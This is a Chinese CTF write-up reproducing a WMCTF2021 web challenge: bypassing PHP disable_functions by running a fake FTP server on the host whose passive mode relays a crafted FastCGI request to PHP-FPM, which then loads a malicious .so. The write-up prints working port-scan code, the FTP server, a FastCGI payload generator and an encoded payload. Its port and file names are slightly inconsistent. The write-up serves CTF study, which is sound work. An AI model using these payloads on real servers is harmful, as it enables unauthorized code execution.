


# 前言

也是很久之前WMCTF2021中Web的一道题目，当时一点头绪都没有，然后也没有复现，今天晚上跟着赵总的博客进行了学习，也是学习到了非常多的东西。本文只是跟着赵总的博客进行了一波复现，记录下来，仅此而已。


# 题目环境

题目本身给了shell，但是有着诸多的限制，包括disable_functions，open_basedir，flag文件是700等。

而且不出网，流量是nginx转发进内网。

考虑到是nginx+php-fpm，联想到之前蓝帽杯的那题，很正常会想到利用ftp的被动模式攻击fpm实现恶意加载so导致disable_functions绕过。但是之前的靶机是出网的，这里不出网，导致了利用姿势的改变，是需要利用PHP在靶机本地起一个FTP把流量转发给FPM实现攻击。


# 信息收集

也是第一次见，之前从来只知道一个phpinfo可以收集disable_functions之类的，原来还可以这样：

```php
var_dump(get_cfg_var("disable_functions"));
var_dump(get_cfg_var("open_basedir"));
var_dump(ini_get_all());
```

都可以收集到相应的信息，发现ban掉了很多的东西，`Curl` 和 `Socket Client`都无法利用。所以只能想办法用FTP的被动模式了。


之后就是想办法知道FPM所在的端口。

这里也是学习了一波php扫描本机开放端口的姿势：

```php
for($i=0;$i<65535;$i++) {
  $t=stream_socket_server("tcp://0.0.0.0:".$i,$ee,$ee2);
  if($ee2 === "Address already in use") {
    var_dump($i);
  }
}
```


```php
for($i=0;$i<65535;$i++) {
  $t=file_get_contents('http://127.0.0.1:'.$i);
  if(!strpos(error_get_last()['message'], "Connection refused")) {
    var_dump($i);
  }
}
```

学习了学习了。


通过扫描内网后知道FPM在11415端口，接下来就是进一步利用了。


# PHP的FTP服务器

用的是`Ph0t1n1a`的Payload，用起来很舒服（笑）：

```php
$socket = stream_socket_server("tcp://0.0.0.0:46819", $errno, $errstr);
if (!$socket) {
  echo "$errstr ($errno)<br />\n";
} else {
  while ($conn = stream_socket_accept($socket)) {
    fwrite($conn, "210 Fake FTP\n");
    $line = fgets($conn);
    echo $line; // USER
    fwrite($conn, "230 Login successful\n");
    $line = fgets($conn);
    echo $line; // TYPE
    fwrite($conn, "200 xx\n");
    $line = fgets($conn);
    echo $line; // SIZE
    fwrite($conn, "550 xx\n");
    $line = fgets($conn);
    echo $line; // EPSV
    fwrite($conn, "500 wtf\n");
    $line = fgets($conn);
    echo $line; // PASV

    // $ip = '192.168.1.4';
    $ip = '127.0.0.1';
    $port = 11451;
    $porth = floor($port / 256);
    $portl = $port % 256;
    fwrite($conn, "227 Entering Passive Mode. ".str_replace('.',',',$ip).",$porth,$portl\n");
    $line = fgets($conn);
    echo $line; // STOR

    fwrite($conn, "125 GOGOGO!\n");
    sleep(1);
    fwrite($conn, "226 Thanks!\n");
    fclose($conn);
  }
  fclose($socket);
}
```


要加载的恶意so也是别的队的，根据蚁剑魔改的so，当然正常的像蓝帽那样写个c然后编译出来也是可以的。不过也是学一手别人的so（也起来也是很舒服hhh）。


生成payload也是老样子：

```php
<?php

class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
    const STDERR               = 7;
    const DATA                 = 8;
    const GET_VALUES           = 9;
    const GET_VALUES_RESULT    = 10;
    const UNKNOWN_TYPE         = 11;
    const MAXTYPE              = self::UNKNOWN_TYPE;
    const RESPONDER            = 1;
    const AUTHORIZER           = 2;
    const FILTER               = 3;
    const REQUEST_COMPLETE     = 0;
    const CANT_MPX_CONN        = 1;
    const OVERLOADED           = 2;
    const UNKNOWN_ROLE         = 3;
    const MAX_CONNS            = 'MAX_CONNS';
    const MAX_REQS             = 'MAX_REQS';
    const MPXS_CONNS           = 'MPXS_CONNS';
    const HEADER_LEN           = 8;
    /**
     * Socket
     * @var Resource
     */
    private $_sock = null;
    /**
     * Host
     * @var String
     */
    private $_host = null;
    /**
     * Port
     * @var Integer
     */
    private $_port = null;
    /**
     * Keep Alive
     * @var Boolean
     */
    private $_keepAlive = false;
    /**
     * Constructor
     *
     * @param String $host Host of the FastCGI application
     * @param Integer $port Port of the FastCGI application
     */
    public function __construct($host, $port = 9000) // and default value for port, just for unixdomain socket
    {
        $this->_host = $host;
        $this->_port = $port;
    }
    /**
     * Define whether or not the FastCGI application should keep the connection
     * alive at the end of a request
     *
     * @param Boolean $b true if the connection should stay alive, false otherwise
     */
    public function setKeepAlive($b)
    {
        $this->_keepAlive = (boolean)$b;
        if (!$this->_keepAlive && $this->_sock) {
            fclose($this->_sock);
        }
    }
    /**
     * Get the keep alive status
     *
     * @return Boolean true if the connection should stay alive, false otherwise
     */
    public function getKeepAlive()
    {
        return $this->_keepAlive;
    }
    /**
     * Create a connection to the FastCGI application
     */
    private function connect()
    {
        if (!$this->_sock) {
            //$this->_sock = fsockopen($this->_host, $this->_port, $errno, $errstr, 5);
            $this->_sock = stream_socket_client($this->_host, $errno, $errstr, 5);
            if (!$this->_sock) {
                throw new Exception('Unable to connect to FastCGI application');
            }
        }
    }
    /**
     * Build a FastCGI packet
     *
     * @param Integer $type Type of the packet
     * @param String $content Content of the packet
     * @param Integer $requestId RequestId
     */
    private function buildPacket($type, $content, $requestId = 1)
    {
        $clen = strlen($content);
        return chr(self::VERSION_1)         /* version */
            . chr($type)                    /* type */
            . chr(($requestId >> 8) & 0xFF) /* requestIdB1 */
            . chr($requestId & 0xFF)        /* requestIdB0 */
            . chr(($clen >> 8 ) & 0xFF)     /* contentLengthB1 */
            . chr($clen & 0xFF)             /* contentLengthB0 */
            . chr(0)                        /* paddingLength */
            . chr(0)                        /* reserved */
            . $content;                     /* content */
    }
    /**
     * Build an FastCGI Name value pair
     *
     * @param String $name Name
     * @param String $value Value
     * @return String FastCGI Name value pair
     */
    private function buildNvpair($name, $value)
    {
        $nlen = strlen($name);
        $vlen = strlen($value);
        if ($nlen < 128) {
            /* nameLengthB0 */
            $nvpair = chr($nlen);
        } else {
            /* nameLengthB3 & nameLengthB2 & nameLengthB1 & nameLengthB0 */
            $nvpair = chr(($nlen >> 24) | 0x80) . chr(($nlen >> 16) & 0xFF) . chr(($nlen >> 8) & 0xFF) . chr($nlen & 0xFF);
        }
        if ($vlen < 128) {
            /* valueLengthB0 */
            $nvpair .= chr($vlen);
        } else {
            /* valueLengthB3 & valueLengthB2 & valueLengthB1 & valueLengthB0 */
            $nvpair .= chr(($vlen >> 24) | 0x80) . chr(($vlen >> 16) & 0xFF) . chr(($vlen >> 8) & 0xFF) . chr($vlen & 0xFF);
        }
        /* nameData & valueData */
        return $nvpair . $name . $value;
    }
    /**
     * Read a set of FastCGI Name value pairs
     *
     * @param String $data Data containing the set of FastCGI NVPair
     * @return array of NVPair
     */
    private function readNvpair($data, $length = null)
    {
        $array = array();
        if ($length === null) {
            $length = strlen($data);
        }
        $p = 0;
        while ($p != $length) {
            $nlen = ord($data{$p++});
            if ($nlen >= 128) {
                $nlen = ($nlen & 0x7F << 24);
                $nlen |= (ord($data{$p++}) << 16);
                $nlen |= (ord($data{$p++}) << 8);
                $nlen |= (ord($data{$p++}));
            }
            $vlen = ord($data{$p++});
            if ($vlen >= 128) {
                $vlen = ($nlen & 0x7F << 24);
                $vlen |= (ord($data{$p++}) << 16);
                $vlen |= (ord($data{$p++}) << 8);
                $vlen |= (ord($data{$p++}));
            }
            $array[substr($data, $p, $nlen)] = substr($data, $p+$nlen, $vlen);
            $p += ($nlen + $vlen);
        }
        return $array;
    }
    /**
     * Decode a FastCGI Packet
     *
     * @param String $data String containing all the packet
     * @return array
     */
    private function decodePacketHeader($data)
    {
        $ret = array();
        $ret['version']       = ord($data{0});
        $ret['type']          = ord($data{1});
        $ret['requestId']     = (ord($data{2}) << 8) + ord($data{3});
        $ret['contentLength'] = (ord($data{4}) << 8) + ord($data{5});
        $ret['paddingLength'] = ord($data{6});
        $ret['reserved']      = ord($data{7});
        return $ret;
    }
    /**
     * Read a FastCGI Packet
     *
     * @return array
     */
    private function readPacket()
    {
        if ($packet = fread($this->_sock, self::HEADER_LEN)) {
            $resp = $this->decodePacketHeader($packet);
            $resp['content'] = '';
            if ($resp['contentLength']) {
                $len  = $resp['contentLength'];
                while ($len && $buf=fread($this->_sock, $len)) {
                    $len -= strlen($buf);
                    $resp['content'] .= $buf;
                }
            }
            if ($resp['paddingLength']) {
                $buf=fread($this->_sock, $resp['paddingLength']);
            }
            return $resp;
        } else {
            return false;
        }
    }
    /**
     * Get Informations on the FastCGI application
     *
     * @param array $requestedInfo information to retrieve
     * @return array
     */
    public function getValues(array $requestedInfo)
    {
        $this->connect();
        $request = '';
        foreach ($requestedInfo as $info) {
            $request .= $this->buildNvpair($info, '');
        }
        fwrite($this->_sock, $this->buildPacket(self::GET_VALUES, $request, 0));
        $resp = $this->readPacket();
        if ($resp['type'] == self::GET_VALUES_RESULT) {
            return $this->readNvpair($resp['content'], $resp['length']);
        } else {
            throw new Exception('Unexpected response type, expecting GET_VALUES_RESULT');
        }
    }
    /**
     * Execute a request to the FastCGI application
     *
     * @param array $params Array of parameters
     * @param String $stdin Content
     * @return String
     */
    public function request(array $params, $stdin)
    {
        $response = '';
//        $this->connect();
        $request = $this->buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this->_keepAlive) . str_repeat(chr(0), 5));
        $paramsRequest = '';
        foreach ($params as $key => $value) {
            $paramsRequest .= $this->buildNvpair($key, $value);
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        // 输出构造好的请求
        return (urlencode($request));
    }
}
// php5
// ssrf生成payload的话，这里不用管
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$SCRIPT_FILENAME = '/var/www/html/index.php';
$SCRIPT_NAME = '/'.basename($SCRIPT_FILENAME);
// GET参数
$REQUEST_URI = $SCRIPT_NAME;
// POST参数
$content = '';
// 设置php_value利用php://input执行代码
// $PHP_ADMIN_VALUE = "allow_url_include=On\nopen_basedir=/\nauto_prepend_file=php://input";
// 设置php_value加载恶意so文件，把so文件上传到/var/www/html中或其他目录
$PHP_ADMIN_VALUE = "extension_dir = /tmp\nextension = ant.so\n";
$res = $client->request(
    array(
        'GATEWAY_INTERFACE' => 'FastCGI/1.0',
        'REQUEST_METHOD' => 'POST',
        'SCRIPT_FILENAME' => $SCRIPT_FILENAME,
        'SCRIPT_NAME' => $SCRIPT_NAME,
        'REQUEST_URI' => $REQUEST_URI,
        'PHP_ADMIN_VALUE'   => $PHP_ADMIN_VALUE,
        'SERVER_SOFTWARE' => 'php/fastcgiclient',
        'REMOTE_ADDR' => '127.0.0.1',
        'REMOTE_PORT' => '9985',
        'SERVER_ADDR' => '127.0.0.1',
        'SERVER_PORT' => '80',
        'SERVER_NAME' => 'localhost',
        'SERVER_PROTOCOL' => 'HTTP/1.1',
        'CONTENT_TYPE' => 'application/x-www-form-urlencoded',
        'CONTENT_LENGTH' => strlen($content),
    ),
    $content
);
// 这次也不用二次编码了

echo(str_replace("%2B", "+", ($res)));
```


把产生的payload放进来即可：

```php
$payload=urldecode('%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%9E%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%17SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%0B%0ASCRIPT_NAME%2Findex.php%0B%0AREQUEST_URI%2Findex.php%0F%28PHP_ADMIN_VALUEextension_dir+%3D+%2Ftmp%0Aextension+%3D+aant.so%0A%0F%11SERVER_SOFTWAREphp%2Ffastcgiclient%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9985%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0C%21CONTENT_TYPEapplication%2Fx-www-form-urlencoded%0E%01CONTENT_LENGTH0%01%04%00%01%00%00%00%00%01%05%00%01%00%00%00%00');

file_put_contents('ftp://127.0.0.1:46819/aaa',$payload);
```


接下来就是上传这个ant.so，也是从赵总那里学了这么一手，妙！


把这个恶意的so上传到`/tmp/ant.so`之后，就可以开始攻击了。

先开启上面的FTP服务器：


（POST的数据就是执行那个FTP 的PHP代码）


然后发送payload：




这样ant.so就加载成功了。ant.so的作用就是当调用`antsystem("qwq");`的时候，会把`/tmp/xxxxxx`这个文件中写好的命令进行执行然后把结果写进`/tmp/yyyyyy`中：



